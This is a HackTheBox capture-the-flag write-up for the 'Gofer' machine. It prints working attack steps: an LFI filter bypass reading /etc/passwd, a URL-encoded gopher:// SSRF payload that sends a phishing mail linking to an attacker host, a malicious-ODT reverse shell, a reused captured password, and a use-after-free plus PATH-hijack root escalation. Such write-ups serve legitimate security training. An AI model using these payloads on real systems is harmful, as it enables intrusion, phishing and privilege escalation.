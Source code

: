 # [Gofer](https://app.hackthebox.com/machines/Gofer) - 04/09/2023 - HackTheBox write-up

IP:   10.10.11.225
Name: gofer.htb

## User flag

### Discovery

Nmap:
```
PORT    STATE    SERVICE
22/tcp  open     ssh
25/tcp  filtered smtp
80/tcp  open     http
139/tcp open     netbios-ssn
445/tcp open     microsoft-ds
```

There is nothing on the first web page. By running `gobuster` in `vhost` mode we can find another app: `proxy.gofer.htb`. But, there is a Basic authentication to access the page.

In the same time, we can find a file in a shared directory accessible as a guest via SMB. The file is a mail:
```
From jdavis@gofer.htb  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: tbuckley@gofer.htb
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an .odt format, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>
```

Here we can find that Jocelyn is potentially vulnerable to phising attack, and also the proxy is probably restricted by Basic authentication using the `<Limit>` directive in Apache. This directive apply for a list of HTTP methods so we can try other HTTPs methods.

The GET and HEAD methods are indeed restricted by authentication, but not the others (ex: POST). So, I ran a `dirsearch` again using POST method, and found a `index.php` page:
```bash
$ curl -X POST http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

We need to send an `URL` parameter. In the body the parameter isn't use so we need to send it as a GET parameter (in lowercase also):
```
$ curl -X POST http://proxy.gofer.htb/index.php\?url\=http://10.10.11.225
# Redirection to gofer.htb page
```

### Searching for vulnerability

This parameter must be vulnerable. We can reach our machine but can't do anything with it. Maybe we can use it with the `file` protocol to obtain LFI:
```
$ curl -X POST http://proxy.gofer.htb/index.php\?url\=file:///etc/passwd 
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>
```

The word `file://` is blacklisted, but we can try with `file:/`:
```
$ curl -X POST http://proxy.gofer.htb/index.php\?url\=file:/etc/passwd 
<!-- Welcome to Gofer proxy -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
```

And we got it, we can now read file from the server. I read the `.htpasswd` file to obtain Basic authentication access and maybe reuse this credentials somewhere. But, I cannot crack it, online or offline. After searching other interesting files on the server, I thought that it's not the correct way. The `url` parameter allow us to have a kind of SSRF, others protocols can be used.

### Exploitation

The `mail` file must be here for a reason, so we might use this and try to send a mail to Jocelyn (`jhudson` we found it in `/etc/passwd`), with a malicious `.odt` file to obtain code execution. I finally found a clue in the machine name, Gofer, who refers to the `gopher` protocol, and we can use it to send mail. To create a payload, we can use `gopherus.py` that generate payloads for many protocols.

The payload created is generic so we need to edit it a little and also encode IP in decimal format because `127` is blacklisted:
```
gopher://2130706433:25/xHELO
MAIL FROM:<tbuckley@gofer.htb>
RCPT TO:<jhudson@gofer.htb>
DATA
From: <tbuckley@gofer.htb>
To: <jhudson@gofer.htb>
Subject: message

<a href='http://10.10.14.168/file.odt>super file</a>


.
QUIT
```

We need to use CRLF at end of line and then encode it correctly to finally send it:
```
POST /index.php?url=gopher://2130706433:25/xHELO%250d%250aMAIL%20FROM%3A%3Ctbuckley@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%3Ctbuckley@gofer.htb%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250a%250d%250aSubject%3A%20message%250d%250a%250d%250a<a+href%3d'http%3a//10.10.14.168/file.odt>super%20file</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

And with this payload we receive a request on our server to `file.odt` ! Now it's time to create our malicious ODT.

I found [this](https://github.com/0bfxgh0st/MMG-LO) repo, clone it, and create a file with malicious code who will execute a Linux reverse shell. Then we need to start HTTP server and nc listener, run the command and wait for Jocelyn to open our document. After a few seconds, it happens, we obtain a reverse shell, and the user flag !

## Root flag

The previous part was hard, so I expected the root flag to be easier to find.

### Searching for elevating privileges

After add my SSH key to obtain stable connection, I ran `linpeas` and found an executable, owned by root, with SUID bit and execute by user in `dev` group. In `/etc/group` we find that `tbuckley` is part of this group, so we need to pivot first to his account. After running a few minutes the `pspy64` program I found the following:
```
2023/09/08 08:29:01 CMD: UID=0     PID=5912   | /usr/bin/curl http://proxy.gofer.htb/?url=http://gofer.htb --user tbuckley:ooP4dietie3o_hquaeti
```

The user `tbuckley` is connecting to the proxy using Basic authentication, and we can reuse this password to switch to his account.

### Exploitation

We can now run this program, `notes` and obtain the following :
```
tbuckley@gofer:/home/jhudson$ /usr/local/bin/notes
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================
```

It seems like a UAF vulnerable program as we can see in many CTFs. After importing it in Ghidra in my own machine I started to inspect the code, and indeed we can find a UAF vulnerability:
```C
case 3:
    if (user != NULL) {
        free(user)
        # missing instruction: user = NULL;
    }
    break;
```

When creating a user the program will check if we are `root` and if it's the case, will give us the role `admin` instead of `user`. If we are admin we can run code as `root` with option 8:
```C
case 8:
  if (user == (char *)0x0) {
    puts("First create an user!\n");
  }
  else {
    iVar2 = strcmp(user + 0x18,"admin");
    if (iVar2 == 0) {
      puts("Access granted!");
      setuid(0);
      setgid(0);
      system("tar -czvf /root/backups/backup_notes.tar.gz /opt/notes");
    }
    else {
      puts("Access denied: you don\'t have the admin role!\n");
    }
  }
```

So, we need to obtain a user with "admin" role. By using the UAF, if we create a user, the delete it and create a note, the `malloc` call will return a pointer to the last freed user structure. Since user is not free, when we'll asking for user information, the program will see that user still exists and read data from our note. So we can create a user, delete a user and then create a note with a precise content to write `admin` in the user role, in fact 24 bytes of anything and then "admin" (ex: `111111111111111111111111admin`).

Now we have our admin role, the last step is to execute a shell instead of the `tar` command. Very simple, the full path of `tar` isn't specified so we can create an executable, named `tar` in a writable directory, which will run a shell, and then add this directory to the beginning of the variable `PATH`.
```bash
$ echo '#!/bin/bash' > /tmp/tar
$ echo '/bin/bash -p' >> /tmp/tar
$ chmod u+x /tmp/tar
$ PATH="/tmp:$PATH" /usr/local/bin/notes
# Choice 1 : create user with any username
# Choice 3 : delete user
# Choice 4 : write a note (111111111111111111111111admin)
# Choice 8 : shell as root !
```

So we obtain a shell as root and can get the flag.
